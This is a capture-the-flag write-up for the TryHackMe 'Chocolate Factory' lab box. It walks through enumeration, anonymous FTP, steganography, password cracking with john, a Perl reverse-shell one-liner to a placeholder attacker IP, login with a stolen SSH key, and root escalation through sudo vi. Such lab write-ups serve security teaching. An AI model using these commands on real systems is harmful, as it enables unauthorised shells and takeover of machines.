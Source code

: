 # Writeup for Room "Chocolate Factory"

This is the writeup for the box Chocolate Factory

## 🌐🖥️ 1. WebSite
- The website.
- No useful information was found in `robots.txt`.
  
  ![WebSite](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/00.png)

  ![Robots.txt](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/01.png)

## 🧪🔍⚙️ 2. Fuzzing
-  **Dirbuster / Gobuster** was used to find directories and files but no useful information was found.
  
    ![Fuzzing](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/02.png)

## 📡 3. Nmap Scan
- The following information was found:
  - The port 21 is open. **FTP**
  - The port 22 is open. **SSH**
  - The port 80 is open. **HTTP (Apache)**
  - ...

  ![Nmap Scan](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/03.png)

## 💉🛢️ 4. SQL Injection 

- I tried to find some kind of SQL Injection vulnerability, but found nothing.

  ![SQL Injection](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/05.png)

  ![SQL Injection-2](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/06.png)

## 📡 5. Nmap Scan again

- I checked again the Nmap scan and I found a fingerprint with a file named ```key_rev_key``` in the http://{ip}/key_rev

  ![key_rev_key](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/07.png)

- I downloaded the file and I used the following for checking its content:

  ```
  hexdump -C key_rev_key
  ```

  ![hexdump](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/08.png)

- The content of the file has a part that looks like a key:

  ![hexdump](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/09.png)

- I made a copy of the file in .txt format and used the command ```cat key_rev_key.txt``` to get the first flag, which is the key

  ![cp-content](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/10.png)

  ![cat-content](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/11.png)

## 📁📤📥 6. FTP Access

- I try to use the following credentials to access the FTP:
  ```
  Username: anonymous
  Password: 
  ```

  ![ftp-access](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/13.png)

- I found a file named ```gum_room.jpg``` in the root directory and I downloaded it.

  ![gum_room.jpg](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/13.png)

## 🕵️‍♂️🖼️ 7. Steganography

- I used different tools to check if the image has hidden information 

  ![stegonography](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/14.png)

- When I have used the command ```steghide extract -sf gum_room.jpg``` I got the following output: ```b64.txt```

  ![steghide](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/15.png)

- After decoding the Base64 string, I got a list of password hashes similar to those in a shadow file.

  ![decode-base64](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/16.png)

## 🔓🗝️💻 8. Password Cracking

- There is a user named ```charlie``` with a hashed password 

  ![user-charlie](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/17.png)

- I used the following command to crack the password of the user ```charlie```:

  ```john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt```

  ![password-cracked](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/18.png)

## 🌐🖥️ 9. WebSite again - Reverse Shell

- I can access to the website with the credentials obtained from the previous phase.

- The website has a input where we can execute commands

  ![input](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/19.png)

- I am going to use a reverse shell to get a shell on the machine

  ![reverse-shell](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/20.png)

- I used the following command to get a reverse shell:

  ```perl -e 'use Socket;$i="TU_IP";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'```

  ![reverse-shell-2](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/21.png)

## 🐚💻🚀 10 Reverse Shell - Privilege Escalation

- I moved to the home directory for the user ```charlie``` and I found various files but the file ```user.txt``` is with a permission denied (I am the user ```www-data```).

  ![user.txt](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/22.png)

- But we can escalate privileges using the private SSH key.

  ![private-ssh-key](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/23.png)

  ![public-ssh-key](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/24.png)

- I copied the private SSH key to my user's ```.ssh``` directory and I used the following command to connect to the machine:

  ```ssh -i ~/.ssh/charlie_id_rsa charlie@ip-machine```

  ![ssh-connection](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/25.png)

- If I now try to see the contents of the file ```user.txt``` I get the flag : 

  ![user.txt-2](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/26.png)

- Now, I have used the command ```sudo -l```to check the privileges of the user ```charlie```:

  ![sudo-l](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/27.png)

- After searching GTFOBins to find if there is any specific command for that program to escalate privileges : ``` sudo vi -c ':!/bin/sh' /dev/null ```

  ![sudo-vi](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/28.png)

  > [!NOTE]
  > The website used to identify if exists a command to escalate privileges has been:
  > https://gtfobins.github.io/gtfobins/vi/#sudo

- We need to navigate to the root folder. There, we see a file named root.py which, when executed, asks for a password (the first flag). If we enter it correctly, it gives us the final flag.

  ![root.py](https://github.com/MCornejoDev/TryHackMe/blob/main/rooms/chocolate-factory/screenshots/29.png)